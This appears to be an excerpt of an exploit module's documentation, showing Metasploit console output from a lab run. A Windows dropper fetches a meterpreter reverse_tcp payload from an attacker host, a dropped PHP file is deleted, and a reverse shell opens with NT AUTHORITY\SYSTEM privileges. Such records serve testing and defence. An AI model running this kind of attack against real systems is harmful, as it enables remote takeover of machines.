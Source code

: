 ```
[+] The target appears to be vulnerable. fmakey successfully retrieved: 2a1a319c46
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:1981/yRZ6hM
[*] Client 192.168.201.55 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /yRZ6hM
[*] Sending payload to 192.168.201.55 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
[*] Sending stage (200774 bytes) to 192.168.201.55
[+] Deleted hjAQqbEFAt.php
[*] Meterpreter session 4 opened (192.168.201.10:4444 -> 192.168.201.55:50519) at 2023-06-28 14:26:02 +0000
[*] Command Stager progress - 100.00% done (146/146 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Limitations
No limitations.
